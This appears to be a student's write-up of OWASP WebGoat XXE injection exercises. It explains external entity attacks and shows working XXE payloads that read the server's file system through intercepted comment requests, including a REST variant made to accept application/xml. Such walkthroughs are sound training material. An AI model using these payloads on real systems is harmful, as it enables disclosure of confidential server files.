 # XXE
XXE = XML External Entity Attack

## What is an XXE injection?
- attack against an application that parses XML input
- occurs when XML input containing a reference to an external entity is  processed by a weakly configured XML parser.
- may lead to the disclosure of confidential data, DoS, server side request forgery, etc.
- Distinctions in different XXE attacks:
  - Classic: an external entity is included in a local DTD
  - Blind: no output and or errors are shown in the response
  - Error: try to get the content of a resource in the error message

## XML Entity
- XML Entity allows tags to be defined that will be replaced by content when the XML Document is parsed.
- Three types of entities:
  - Internal entities
  - External entities
  - Parameter entities
- An entity must be created in the Document Type Definition (DTD)

Example:
```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

## List the Directory of the File System
Intercept comment submission with ZAP

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/10%20zap%20xxe%20request.PNG?token=ANjmpuYrSVcKPRGvRDvdV0UcGgpoCKuLks5bugWWwA%3D%3D)

Change comment section to:
```
<!DOCTYPE comment [
<!ELEMENT text (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///">
]>
<comment> <text>&xxe;</text></comment>
```

Results:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/11%20xxe%20files%20listed.PNG?token=ANjmpqFNvEDNxD_wEebCUjI8_uFITl8wks5bugvNwA%3D%3D)

## Modern REST Framework
Intercept comment submission with ZAP again

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/12%20xxe%20modern%20rest%20framework%20request.PNG?token=ANjmpibR-jC7UDO1c_elxkWTLYj0vjriks5bug5JwA%3D%3D)

Edit request:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/13%20modified%20request.PNG?token=ANjmppgBbtaqOBxHeZ4aL2A1AAIGUWmZks5bug6GwA%3D%3D)

Change Content-Type to:
```
Content-Type: application/xml
```

Change comment section to:
```
<!DOCTYPE comment [
<!ELEMENT text (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///">
]>
<comment> <text>&xxe;</text></comment>
```
